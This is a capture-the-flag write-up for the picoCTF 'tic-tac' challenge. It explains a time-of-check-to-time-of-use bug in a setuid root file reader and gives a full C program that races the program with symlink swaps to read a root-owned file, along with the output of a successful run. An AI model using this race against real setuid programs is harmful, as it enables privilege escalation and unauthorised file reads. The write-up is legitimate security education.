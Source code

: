 # tic-tac #
 
## Overview ##
 
200 points
 
Category: [Binary Exploitation](../)
 
Tags : `#setuid #toctou`
 
## Description ##
 
Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
ssh to `saturn.picoctf.net:<port>`, and run the binary named `txtreader` once connected. Login as ctf-player with the supplied password.
 
## Approach ##

Listing the contents of the home folder on the instance we see : 

    drwxr-xr-x 1 ctf-player ctf-player    20 Mar 19 12:02 .
    drwxr-xr-x 1 root       root          24 Mar 16 02:27 ..
    drwx------ 2 ctf-player ctf-player    34 Mar 19 12:02 .cache
    -rw-r--r-- 1 root       root          67 Mar 16 02:28 .profile
    -rw------- 1 root       root          32 Mar 16 02:28 flag.txt
    -rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
    -rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader

`txtreader` binary is owned by root and has the `setuid` bit set, such that it will run with the effective user ID of `root`. The `flag.txt` file is also owned by `root` and is not accessible by others.

Executing `txtreader` to attempt to read the flag file yields :

    ctf-player@pico-chall$ ./txtreader flag.txt
    Error: you don't own this file

Analysing the `src.cpp` source provided (snippet below), we can see why despite having our privileges elevated by the `setuid` binary bit, the ownership of the input file is checked by `txtreader` via a call to `stat()` to get the owner of the input file and a comparison with the results of `getuid()`. This fails because our *effective* user ID is elevated (returned by `geteuid()`) but not our actual user ID returned via `getuid()`.

    std::string filename = argv[1];
    std::ifstream file(filename);
    struct stat statbuf;

    // Check the file's status information.
    if (stat(filename.c_str(), &statbuf) == -1) {
      std::cerr << "Error: Could not retrieve file information" << std::endl;
      return 1;
    }

Looking more carefully at this sequence, the target file is firstly opened via the `std::ifstream` constructor using the provided filename (commandline argument) ready for use, and then `stat()` is called, also using the provided filename. There is no direct association between the two, by that I mean `stat()` is not using the file descriptor of the open file for example. They are two discrete steps, with the only thing in common the requested filename string. Therefore there is a Time Of Check to Time Of Use (TOCTOU) bug.
 
If we can leverage the fraction of time between opening the flag file and then checking its ownership by creating a race condition to exploit the TOCTOU, we can bypass the `getuid()` check.
 
Desired sequence of events (race condition) :
                                 
    open(file == flag-file)
    ...
      < swap flag-file (owned by root) with dummy-file (owned by user) >
    ...
    stat(file == dummy-file)
    getuid() == owner of dummy-file
 
So how do we swap files but keep the filename (commandline argument) the same? We use the file system's symbolic links feature.
 
## Solution ##
 
The fraction of exploitable time would be small, so I went with a C-program to automate this process within a loop until the race condition was hit.
 
Plan of attack :
 
1. create a user owned `dummy_flag.txt` file, with some dummy contents
2. create a symbolic link to the `flag.txt` file owned by root
3. fork and exec the `txtreader` binary, redirecting its standard ouput to an `output.txt` file so we can check if we were successful
4. introduce a minor delay in the parent process (simple busy loop sufficed) to allow `txtreader` process to have reached and executed the open() [^1]
5. remove the `target.txt` symbolic link and recreate it linking to the user owned `dummy_flag.txt`, hopefully in time for the stat() and subsequent getuid() check
6. check the output from `txtreader`, loop back to step 2 and try again if we didn't hit the race condition (no `picoCTF` in output)
 
[^1]: Step 4 was added to tweak delays slightly, initially the parent process was observed to be unlinking the flag file too quickly (output was mostly my dummy flag `"dummyFlag{just_a_place_holder}"` or very occasionally `"Error: Could not retrieve file information"` meaning the file switcheroo was still in process) as the forked process required time to execute.
 
Final (rough and ready) program used to drop the flag during the event, pasted into a file and compiled on the target instance :
 
    #include <sys/types.h>
    #include <sys/wait.h>
    #include <stdio.h>
    #include <unistd.h>
    #include <stdbool.h>
    #include <fcntl.h>
    #include <string.h>

    int
    main (void)
    {
      // create the dummy flag file
      FILE *fp = fopen ("./dummy_flag.txt", "w");
      if (!fp)
      {
        return 1;
      }
      fputs("dummyFlag{just_a_place_holder}", fp);
      fclose(fp);

      // start the attack
      bool droppedFlag = false;
      do
      {
        // link target to the root owned flag file, opened first
        unlink("./target.txt");
        symlink("./flag.txt", "./target.txt");

        pid_t pid = fork();
        if (pid == 0)
        {
          // child process

          // standard out redirect
          int out_fd = open("output.txt", O_WRONLY|O_CREAT|O_TRUNC, S_IRUSR|S_IWUSR|S_IRGRP|S_IROTH);
          dup2(out_fd, STDOUT_FILENO);
          dup2(out_fd, STDERR_FILENO);
          close(out_fd);

          execlp("./txtreader", "./txtreader", "./target.txt", NULL);
        }
        
        volatile int delay = 0;
        for (delay = 0; delay < 500000;)
        {
          delay = ((delay * 100) / (200 / 2)) + 1; 
        }

        // race condition: replace the link to root owned flag.txt, with user owned
        // dummy flag file, hopefully before the file stat() request to check getuid()
        unlink("./target.txt");
        symlink("./dummy_flag.txt", "./target.txt");

        // wait for setuid binary to complete
        int status;
        waitpid(pid, &status, 0);

        // read redirected output, check if flag was dumped
        fp = fopen("./output.txt", "r");
        if (fp)
        {
          char buf[50];
          buf[0] = '\0';

          fgets(buf, 50, fp);
          if (strncmp(buf, "picoCTF", 7) == 0)
          {
            droppedFlag = true;
          }

          printf("%s", buf);
          while (fgets(buf, 50, fp) != NULL)
          {
            printf("%s", buf);
            buf[0] = '\0';
          }
          fclose(fp);
        }
      }
      while(!droppedFlag);

      return 0;
    }
 
Output from the event :
 
    ctf-player@pico-chall$ ./pwn
    Error: you don't own this file
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    Error: you don't own this file
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    Error: you don't own this file
    dummyFlag{just_a_place_holder}
    Error: you don't own this file
    Error: you don't own this file
    Error: you don't own this file
    Error: Could not retrieve file information
    dummyFlag{just_a_place_holder}
    Error: Could not retrieve file information
    Error: you don't own this file
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    Error: you don't own this file
    Error: you don't own this file
    Error: you don't own this file
    picoCTF{....<redacted>.........}
 